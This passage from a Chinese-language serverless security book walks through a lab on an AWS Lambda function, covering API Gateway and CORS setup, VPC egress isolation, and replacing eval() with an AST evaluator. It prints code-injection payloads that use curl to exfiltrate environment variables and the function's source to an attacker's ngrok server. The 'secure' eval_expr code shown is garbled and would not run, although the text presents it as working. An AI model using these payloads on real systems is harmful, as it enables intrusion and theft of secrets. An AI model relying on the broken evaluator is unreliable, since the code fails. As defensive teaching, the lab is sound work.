aws apigateway put-method-response \
  --rest-api-id $REST_API_ID \
  --resource-id $RESOURCE_ID \
  --http-method GET \
  --status-code 200 \
  --response-parameters $PARAMS
```

这会产生以下输出：

```
{
    "statusCode": "200",
    "responseParameters": {
        "method.response.header.Access-Control-Allow-Headers": true,
        "method.response.header.Access-Control-Allow-Methods": true,
        "method.response.header.Access-Control-Allow-Origin": true
    }
}
```

8. 运行以下命令来配置 `GET` 方法的集成响应，以确保 CORS 头随响应返回：

```
MRO="method.response.header.Access-Control-Allow-Origin=\"'*'\","
MRH="method.response.header.Access-Control-Allow-Headers=\"'*'\","
MRM="method.response.header.Access-Control-Allow-Methods=\"'GET,OPTIONS'\""
PARAMS="$MRO$MRH$MRM"

aws apigateway put-integration-response \
  --rest-api-id $REST_API_ID \
  --resource-id $RESOURCE_ID \
  --http-method GET \
  --status-code 200 \
  --response-parameters $PARAMS
```

这会返回以下输出：

```
{
  "statusCode": "200",
  "responseParameters": {
    "method.response.header.Access-Control-Allow-Headers": "'*'",
    "method.response.header.Access-Control-Allow-Methods": "'GET,OPTIONS'",
    "method.response.header.Access-Control-Allow-Origin": "'*'"
  }
}
```

9. 配置 `OPTIONS` 方法以进行 CORS，以允许浏览器发送预检请求：


```
aws apigateway put-method \
  --rest-api-id $REST_API_ID \
  --resource-id $RESOURCE_ID \
  --http-method OPTIONS \
  --authorization-type "NONE"
```

10. 为 `OPTIONS` 方法配置一个 `MOCK` 集成：

```
aws apigateway put-integration \
  --rest-api-id $REST_API_ID \
  --resource-id $RESOURCE_ID \
  --http-method OPTIONS \
  --type MOCK \
  --request-templates '{"application/json":"{\"statusCode\": 200}"}'
```

这会返回以下响应：

```
{
    "type": "MOCK",
    "requestTemplates": {
        "application/json": "{\"statusCode\": 200}"
    },
    "passthroughBehavior": "WHEN_NO_MATCH",
    "timeoutInMillis": 29000,
    "cacheNamespace": "...",
    "cacheKeyParameters": []
}
```

11. 运行以下命令为 `OPTIONS` 方法配置响应参数并为成功的预检请求添加 CORS 头部：

```
MRO="method.response.header.Access-Control-Allow-Origin=true,"
MRH="method.response.header.Access-Control-Allow-Headers=true,"
MRM="method.response.header.Access-Control-Allow-Methods=true"
PARAMS="$MRO$MRH$MRM"

aws apigateway put-method-response \
  --rest-api-id $REST_API_ID \
  --resource-id $RESOURCE_ID \
  --http-method OPTIONS \
  --status-code 200 \
  --response-parameters $PARAMS
```

12. 使用 `aws apigateway put-integration-response` 命令为 `OPTIONS` 方法定义集成响应，并确保在发出 `OPTIONS` 请求时返回适当的 CORS 头部：

```
MRO="method.response.header.Access-Control-Allow-Origin=\"'*'\","
MRH="method.response.header.Access-Control-Allow-Headers=\"'*'\","
MRM="method.response.header.Access-Control-Allow-Methods=\"'GET,OPTIONS'\""
PARAMS="$MRO$MRH$MRM"

aws apigateway put-integration-response \
  --rest-api-id $REST_API_ID \
  --resource-id $RESOURCE_ID \
  --http-method OPTIONS \
  --status-code 200 \
  --response-parameters $PARAMS
```

13. 通过 `aws apigateway create-deployment` 命令部署 API：

```
aws apigateway create-deployment \
  --rest-api-id $REST_API_ID \
  --stage-name $STAGE_NAME
```

这会输出以下内容：

```
{
    "id": "...",
    "createdDate": "2025-00-00T00:00:00+00:00"
}
```

14. 允许 API Gateway 调用你的 Lambda 函数：

```
SARN="arn:aws:execute-api:$REGION:$ACCOUNT_ID:$REST_API_ID/*/*/$ROUTE_PATH"

aws lambda add-permission \
  --function-name $LAMBDA_NAME \
  --statement-id rest-apigw-$REST_API_ID \
  --action lambda:InvokeFunction \
  --principal apigateway.amazonaws.com \
  --source-arn $SARN
```

API Gateway 就绪后，让我们更新 Lambda 函数以在响应中包含 CORS 头部。这将确保该函数可以从 S3 托管的网站成功访问：

1. 切回已打开 AWS Lambda 控制台的浏览器标签页。确保在继续下一步之前，已打开 `lambda-0010` 的 AWS Lambda 函数详情页面。

2. 导航到 Code 标签。在“Code source”部分，用以下内容替换现有的 `lambda_handler()` 函数代码：

```
def lambda_handler(event, context):
    print("event: ", event)
    print("HARDCODED_KEY_01: ", HARDCODED_KEY_01)
    print("HARDCODED_KEY_02: ", HARDCODED_KEY_02)
    print("CUSTOM_ENV_VAR_01: ", get_env('CUSTOM_ENV_VAR_01'))
    print("CUSTOM_ENV_VAR_02: ", get_env('CUSTOM_ENV_VAR_02'))

    sm_data = get_secret("prod/lambda-secret")
    print("SECRETS MANAGER SECRETS: ", str(sm_data))

    statement = get_statement(event)
    result = process_statement(statement)

    return {
        'statusCode': 200,
        'headers': {
            "Access-Control-Allow-Origin": "*",
            "Access-Control-Allow-Methods": "GET,OPTIONS",
            "Access-Control-Allow-Headers": "*"
        },
        'body': sanitize_output(result)
    }
```

#### Caution

只能替换 `lambda_handler()` 函数代码。请确保 `lambda_function.py` 中的其他代码保持不变。

3. 点击 Deploy。

4. 点击 Test。这会产生以下日志输出：

```
Status: Succeeded
Test Event Name: event-0010

Response:
{
  "statusCode": 200,
  "headers": {
    "Access-Control-Allow-Origin": "*",
    "Access-Control-Allow-Methods": "GET,OPTIONS",
    "Access-Control-Allow-Headers": "*"
  },
  "body": "2"
}

...
```

你的 API 网关已完全配置为将请求路由到你的 Lambda 函数，并且该函数现在可以通过 API 端点以启用 CORS 的方式进行跨源浏览器请求调用。从防御性安全角度来看，你可以进一步完善此设置，通过在 API 网关端点上配置 CORS 来控制哪些网站（源）可以向你的 API 发出基于浏览器的请求。此外，你可以通过应用资源策略来控制访问、使用授权器、配置节流、集成 WAF 以及启用日志和跟踪来监控活动，从而提高 API 安全。

#### Tip

我在这里不会深入探讨 Amazon API Gateway 的所有安全方面。你可以参考 [官方 AWS 文档](https://oreil.ly/d5A1F) 来了解保护 API 的最佳实践。

### 更新 S3 托管网站以使用 API Gateway 端点 URL

所有先决条件准备就绪后，最后一步是更新前端代码，使其通过新的 API Gateway 端点 URL 调用 Lambda 函数。在本节中，你将首先从 S3 存储桶下载当前的 `index.html` 文件。之后，你将修改该文件以用新的 API Gateway 端点 URL 替换旧的 Lambda 函数 URL。最后，你将把更新后的 `index.html` 重新上传到 S3 存储桶。

#### Note

本节假设你使用的是 Serverless Lab 账户，该账户托管了易受攻击的按设计构建的无服务器实验环境。

让我们逐步完成更新你的 S3 托管网站以完成设置的步骤：

1. 在 Configuration 标签页，点击 Triggers。在 Triggers 部分，找到新的触发器并将 API 端点 URL 复制到本地机器上的文本编辑器中。



2. 打开一个新的浏览器标签页，并通过在查询字符串中包含 `?statement=100` 将 `100` 传递给函数：

```
https://<id>.execute-api.us-east-2.amazonaws.com/prod/lambda?statement=100
```

这会返回 `100`。

#### Note

通过 API Gateway 调用 Lambda 函数时，输入数据可以通过多种方式发送，例如使用 HTTP `GET` 查询参数或 HTTP `POST` 请求体。在此示例中，输入通过 HTTP `GET` 请求的查询字符串发送，以实现简化和易于演示。

3. 通过在搜索栏中输入 `s3` 然后从结果列表中选择 S3 来打开 S3 控制台。

4. 在占位符为“Find buckets by name”的搜索栏中，输入 `serverless-static-website` 并选择相应的存储桶以导航到存储桶详情页面。

5. 在 Objects 标签页中，选择 `index.html`。然后点击 Download 下载文件的本地副本。

6. 在本地机器上的代码编辑器中打开 `index.html`。然后导航到第 98 行以找到以下代码块：


```
<script>
      const { createApp, ref } = Vue;

      createApp({
        setup() {
          const lambdaUrl = 'https://<id>.lambda-url.us-east-1.on.aws/';
          const expression = ref('');
          const result = ref('');

          ...
```

将现有代码替换为以下内容，确保将 Lambda 函数 URL 替换为之前复制的 API Gateway URL：

```
const lambdaUrl = '<API endpoint URL>'
```

#### Caution

请确保将 `<API endpoint URL>` 替换为复制的值。请注意，实际的 URL 将类似于 `https​://<id>.execute-api.us-east-1.amazo⁠n​aws.com/prod/lambda/`。

7. 通过 AWS 管理控制台将更新后的 `index.html` 文件从本地机器上传到 S3 存储桶。这将替换存储桶中当前存储的文件的先前版本。

至此，您已完成设置，并准备验证 Lambda 函数是否仍然容易受到可能将数据外泄到 VPC 外部的代码注入攻击。

### 验证尝试外联的代码注入攻击不再生效

在过去的几个部分中，您已为 Lambda 函数执行角色更新了所需 VPC 权限，设置并配置了一个没有外联访问权限的 VPC，并将 Lambda 函数连接到此 VPC 以限制互联网连接。您还设置了 API Gateway 以将请求路由到 Lambda 函数，并更新了 S3 主托管网站以使用 API Gateway 端点 URL。完成这些步骤后，Lambda 函数现在已安全隔离，代码注入攻击无法使用外联连接来外泄数据（Figure 7-7）。



在本节中，您将模拟针对 Lambda 函数的代码注入攻击，以验证外联外泄是否被阻止。更具体地说，您将首先尝试将函数的环境变量外泄到攻击者控制的远程服务器，然后继续尝试通过之前部分中使用的代码注入有效载荷检索函数的源代码。最后，您将查看 CloudWatch 日志以确认 VPC 配置已按预期成功阻止了外联连接。

#### Note

本节的后半部分假定您使用的是 Serverless Lab 账户，该账户托管了易受攻击的按设计 serverless 实验室环境。

让我们继续进行模拟：

1. 切换到已打开 S3 主托管网站的浏览器标签页。

#### Caution

请确保刷新页面以反映对 S3 主托管网站所做的任何更改。您也可以在浏览器中查看页面源代码，以验证更新后的 `index.html` 文件是否已正确加载。

2. 输入并计算以下表达式：

```
1 + 2 + 3 / 4
```

这仍然会产生以下输出：

```
3.75
```

#### Tip

在继续之前，您可以随意测试几个更多有效表达式，以确认 Math Evaluation Evaluator 的行为符合预期。

3. 输入并计算以下表达式以将您的环境变量发送到暴露的 Flask 服务器：

```
__import__('os').system('curl -X POST -d \"$(env)\" https://[GENERATED_ID].ngrok-free.app')
```

#### Note

请确保将 `[GENERATED_ID]` 替换为 HTTPS 转发 URL 的 `<ID>` 值。

这会导致以下错误响应：

```
Error: Failed to fetch
```

4. 检查您是否可以使用以下表达式外泄 Lambda 函数的源代码：

```
__import__('os').system('curl -X POST --data-binary @/var/task/lambda_function.py https://[GENERATED ID].ngrok-free.app')
```

这会返回以下输出：

```
Error: Failed to fetch
```

5. 切换回已打开 AWS Lambda 控制台（您的 Serverless Lab AWS 账户）的浏览器标签页。在继续之前，请确保您已打开 `lambda-0010` 的 AWS Lambda 函数详细信息页面。

6. 单击 Monitor 以导航到 Monitor 选项卡。

7. 单击“View CloudWatch logs”。这将在 CloudWatch 日志中打开 `/aws/lambda/lambda-0010` 日志组。

8. 在“Log streams”下，按 Last Event Time 对日志流进行排序，以在顶部显示最新的条目。

9. 通过单击相应的“Log stream”条目，导航到最顶部的日志流页面。

10. 滚动到底部以找到以下日志消息集：^(9)

```
START RequestId ...
event: {'resource': '/lambda', 'path': '/lambda/' ...
HARDCODED_KEY_01: ABCDE
HARDCODED_KEY_02: FGHIJ
CUSTOM_ENV_VAR_01: KLMNO
CUSTOM_ENV_VAR_02: PQRST
SECRETS MANAGER SECRETS:
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
0 0 0 0 0 0 0 0 --:--:-- 0:00:01 --:--:-- 0
END RequestId: ...
REPORT RequestId: ... Duration: 3000.00 ms ... Status: timeout
```

看起来您的最新设置能够成功阻止外联连接！日志中的 `Status: timeout` 指示符意味着 Lambda 函数达到了其超时时间并且未完成执行。这意味着代码注入尝试将环境变量和源代码发送到您设置的远程服务器已成功被 VPC 阻止。

#### Note

生成的日志可能会根据 serverless 应用程序的实现及其网络配置而有所不同。这意味着您应检查以验证防御措施的日志可能会根据应用程序的代码、架构和部署环境而有所不同。

分析日志是识别和响应安全漏洞的关键技能，因为它使您能够检测可疑活动并深入了解攻击的方法和范围。很容易想直接跳到复杂的工具或服务，但首先直接手动检查 CloudWatch 中的 Lambda 执行日志对于在依赖自动化分析之前了解正常与可疑活动至关重要。

从防御安全角度来看，您应该建立一个全面的日志、跟踪和监控系统，为您提供对 serverless 应用程序行为的完全可观察性。至关重要的是将生成的日志和跟踪存储在攻击者无法修改或删除的安全位置，以保留其完整性以供审计、分析和事件响应。此外，您可以考虑利用 AI 分析生成的日志和跟踪，以帮助您在运营和安全问题升级为重大事件或漏洞之前检测到它们。您应注意您使用的工具和服务的 AI 功能，包括它们检测异常、关联事件并实时提供可操作的见解的能力。

当然，这些措施本身是不够的，因为您需要一种全面的纵深防御方法，将强大的身份和访问管理、严格的配置加固、持续的安全评估和主动监控结合起来，以保护您的 serverless 应用程序。同时，您需要培养准确识别误报、验证警报并优先处理真实威胁的能力，以便您可以专注于合法的安全问题并及时响应。

### 编写安全的 Lambda 函数代码以防御代码注入攻击


虽然你可能会倾向于始终使用限制性的 VPC 网络配置来防止通过出站请求进行数据外泄，但仅依赖网络控制不足以防止攻击者利用有漏洞的代码并从无服务器应用程序中外泄敏感数据。请记住，安全编码实践、适当的密钥管理以及应用最小权限原则必须与网络控制相辅相成，才能有效保护你的 Lambda 函数。

在本节中，你将使用更安全的实现更新 Lambda 函数，并通过 AWS 管理控制台部署它。你将从 S3 托管的静态网站测试更新后的函数，以确认其仍按预期正常工作。最后，你将通过重新测试上一节中使用的恶意表达式来确认无效且可能恶意的表达式已被阻止。

#### Note

本节假定你正在使用 Serverless Lab 账户，该账户托管了专为易受攻击而设计的无服务器实验环境。

让我们逐步了解更新 Lambda 函数代码以采用更安全实现的步骤：

1. 切回已打开 AWS Lambda 控制台（Serverless Lab 账户）的浏览器标签页。在继续下一步之前，请确保已打开 `lambda-0010` 的 AWS Lambda 函数详细信息页面。

2. 在 AWS Lambda 控制台中，切换到 Configuration 选项卡。然后点击 VPC。

3. 点击 Edit 以打开 Edit VPC 页面。在 VPC 下拉列表中，选择 None（Figure 7-8）。



4. 点击 Save 按钮。你应该会收到通知 `Successfully updated the function lambda-0010`。

#### Note

你已将函数与其关联的 VPC 分离，因为你希望确保在以下步骤中实现自定义评估器代码按预期工作。这样，你就能验证安全代码实现本身是否有效，而不受 VPC  imposed 的任何网络限制影响。

5. 导航到 Code 选项卡。在“Code source”部分，用以下内容替换现有的 `lambda_function.py` 代码：^(10)

```
import re
import boto3
import json
import ast
import operator
from os import environ

get_env = environ.get

HARDCODED_KEY_01 = "ABCDE"
HARDCODED_KEY_02 = "FGHIJ"

operators = {
    ast.Add: operator.add,
    ast.Sub: operator.sub,
    ast.Mult: operator.mul,
    ast.Div: operator.truediv,
    ast.Pow: operator.pow,
    ast.Mod: operator.mod,
    ast.USub: operator.neg,
}


def eval_expr(expr):
    def _eval(node):
        if isinstance(node, ast.Num):
            return node.n
        elif isinstance(node, ast.Constant):
            return node.value
        elif isinstance(node, ast.BinOp):
            return operators
                type(node.op)
            , _eval(node.right))
        elif isinstance(node, ast.UnaryOp):
            return operators
                type(node.op)
            )
        else:
            raise TypeError(
                f"Unsupported expression: {type(node).__name__}"
            )

    try:
        tree = ast.parse(expr, mode='eval')
        return _eval(tree.body)
    except Exception:
        return "Invalid or unsafe expression"


def process_statement(statement):
    if not statement:
        return "No statement parameter value provided"
    return eval_expr(statement)


def get_secret(secret_name, region_name="us-east-1"):
    client = boto3.client("secretsmanager", region_name=region_name)
    response = client.get_secret_value(SecretId=secret_name)
    secret_dict = json.loads(response['SecretString'])

    return secret_dict

def get_statement(event):
    params = event.get('queryStringParameters', {})
    statement = params.get('statement', None)

    return statement


def lambda_handler(event, context):
    print("event: ", event)
    print("HARDCODED_KEY_01: ", HARDCODED_KEY_01)
    print("HARDCODED_KEY_02: ", HARDCODED_KEY_02)
    print("CUSTOM_ENV_VAR_01: ", get_env('CUSTOM_ENV_VAR_01'))
    print("CUSTOM_ENV_VAR_02: ", get_env('CUSTOM_ENV_VAR_02'))

    sm_data = get_secret("prod/lambda-secret")
    print("SECRETS MANAGER SECRETS: ", str(sm_data))

    statement = get_statement(event)
    result = process_statement(statement)

    return {
        'statusCode': 200,
        'headers': {
            "Access-Control-Allow-Origin": "*",
            "Access-Control-Allow-Methods": "GET,OPTIONS",
            "Access-Control-Allow-Headers": "*"
        },
        'body': result
    }
```

此更新后的 Lambda 函数通过使用 `ast`（抽象语法树，AST）模块用自定义评估器替换 `eval()` 函数，从而引入了一种更安全的数学表达式评估方法。^(11) 更具体地说，新的表达式评估函数 `eval_expr()` 通过（1）从输入字符串创建抽象语法树，（2）递归地仅评估安全的节点类型，以及（3）拒绝任何未明确允许的节点，从而防止任意代码执行。这意味着像 `__import__('os').system()` 这样的表达式会被拒绝，因为它们试图执行超出定义的安全算术操作范围的操作。^(12)

6. 在对 `lambda_function.py` 应用更新后，点击 Deploy。你应该会收到通知 `Successfully updated the function lambda-0010`。

7. 要测试你刚刚部署的 Lambda 函数，点击 Test。这会产生与以下类似的输出响应：

```
Status: Succeeded
Test Event Name: event-0010

Response:
{
  "statusCode": 200,
  "headers": {
    "Access-Control-Allow-Origin": "*",
    "Access-Control-Allow-Methods": "GET,OPTIONS",
    "Access-Control-Allow-Headers": "*"
  },
  "body": 2
}

Function Logs:
START RequestId: ... Version: $LATEST
event:  {'queryStringParameters': {'statement': '1 + 1'}}
HARDCODED_KEY_01:  ABCDE
HARDCODED_KEY_02:  FGHIJ
CUSTOM_ENV_VAR_01:  KLMNO
CUSTOM_ENV_VAR_02:  PQRST
SECRETS MANAGER SECRETS:  {'secret1': 'secret-value1',
'secret2': 'secret-value2', 'secret3': 'secret-value3'}
END RequestId: ...
REPORT RequestId: ...   Duration: 2122.49 ms    Billed Duration: 2123 ms
Memory Size: 128 MB Max Memory Used: 84 MB  Init Duration: 347.01 ms
```

8. 切回已打开 S3 托管网站的浏览器标签页。

9. 输入并评估以下表达式：^(13)

```
1 + 2 + 3 / 4
```

这会产生以下输出：

```
3.75
```

#### Tip

为确认更新后的 Lambda 函数按预期运行，请尝试使用不同值或运算符评估几个额外表达式。这有助于验证你的输入处理和评估逻辑保持一致。

10. 输入并评估以下表达式以将你的环境变量发送到暴露的 Flask 服务器：

```
__import__('os').system('curl -X POST -d \"$(env)\" https://[GENERATED_ID].ngrok-free.app')
```

#### Note

请确保将 `[GENERATED_ID]` 替换为 HTTPS 转发 URL 的 `<ID>` 值。

这会产生以下错误响应：

```
Invalid or unsafe expression
```


更新后的 Lambda 函数代码因包含不支持的 AST 节点而拒绝了恶意表达式。在幕后，`_eval()` 函数（位于 `eval_expr()` 函数内部）引发了 `TypeError`，从而阻止了恶意表达式被求值。

#### Note

`eval_expr()` 函数仅支持对应于安全算术操作的一组有限的 AST 节点。支持的节点包括用于数字的 `ast.Num` 和 `ast.Constant`，用于二元操作的 `ast.BinOp`（加法、减法、乘法、除法、取模、指数运算），以及用于一元操作的 `ast.UnaryOp`（取反）。任何其他节点类型都会被拒绝以防止代码注入。

11. 检查你是否可以使用以下表达式外泄 Lambda 函数的源代码：

```
__import__('os').system('curl -X POST --data-binary @/var/task/lambda_function.py https://[GENERATED_ID].ngrok-free.app')
```

这会返回以下输出：

```
Invalid or unsafe expression
```

#### Caution

本章中的动手模拟是有意简化的，并未涵盖或解决每一种可能的风险。在保护真实世界的无服务器应用程序时，请务必考虑本书未涵盖的其他潜在漏洞。

到目前为止，你应该对如何防范 Lambda 函数中的代码注入漏洞有了很好的了解。请记住，实现这一点的方法有很多，而我们只涵盖了一种可能的方法。随着你在后续章节中探索攻击者如何利用无服务器函数中的代码注入漏洞，你将学习这些攻击的不同变体，并能更有效地进行防御。

#### Caution

现在你已完成本章和前三章中的动手示例，请务必检查并删除你在 AWS 账户中创建的所有资源。留下不再使用的资源可能会导致不必要的费用，并使你的账户暴露于潜在的安全风险。

## Summary

在本章中，你配置了 Lambda 函数使其使用具有受限出站访问的 VPC，并重构了函数代码以消除对 `eval()` 的使用，从而防范代码注入攻击。通过逐步的模拟和详细的示例，你获得了识别漏洞并更有效地保护 Lambda 函数的知识和实践经验。

在下一章中，你将把重点转向 Google Cloud，并探索攻击者如何利用云存储桶配置错误来暴露或窃取敏感数据。你将模拟诸如悬空存储桶接管之类的场景，并研究对已删除存储桶的残留引用如何被滥用于恶意目的。最后，你将学习如何使用 IaC 强制执行安全的存储桶配置，以最大程度地降低代价高昂的配置错误风险。

^1 *互联网网关* 是 VPC 组件，允许 VPC 中的资源向互联网发送和接收流量。*NAT 网关* 是 VPC 组件，允许私有子网中的资源访问互联网，同时阻止入站流量直接到达它们。

^2 你的 VPC 将只包含一个子网。

^3 该函数应生成与附加到 VPC 之前相同的日志输出集。

^4 也就是说，你已成功将函数附加到自定义 VPC。

^5 CORS 头是允许浏览器从不同源访问资源的 HTTP 头。在 API Gateway 中，配置这些头允许你的 API 从托管在不同域或端口上的客户端应用程序调用。

^6 我不会在本書中详细介绍 Amazon API Gateway 的全部细节。想了解更多，请查看 AWS re:Invent 2023 会议 [“I Didn’t Know Amazon API Gateway Did That (SVS323)”](https://oreil.ly/1__-g)。

^7 为跟进操作，请使用来自 `vulnerable-lambda-function-backend` GitHub 仓库的 [此 Lambda 函数代码](https://oreil.ly/2EtpN)。

^8 尽管此配置限制了浏览器中的访问，但客户端仍可通过使用 `curl` 或 Postman 等工具以编程方式调用 API。

^9 你应该能找到两组这些日志消息，每组对应 Lambda 函数处理的单独请求。你可能需要展开 CloudWatch Logs 中的日志条目以查看完整的消息集，尤其是当某些行默认被折叠或截断时。

^10 为跟进操作，请使用来自 `vulnerable-lambda-function-backend` GitHub 仓库的 [此 Lambda 函数代码](https://oreil.ly/1EMvm)。

^11 我使用生成式 AI 工具帮助重构原始代码，并用更安全的替代实现替换不安全的 `eval()` 函数。

^12 例如，如果输入字符串是 `(40 - 2) * 5`，函数会将此表达式解析为抽象语法树，其中操作（如减法和乘法）和操作数（数字）成为节点。求值器函数随后通过递归处理每个节点并仅应用 `operators` 字典中定义的允许算术运算来安全地计算结果。

^13 你可以考虑设置自动化测试，以确保即使在进行大量代码更改后，安全表达式仍能被正确求值。
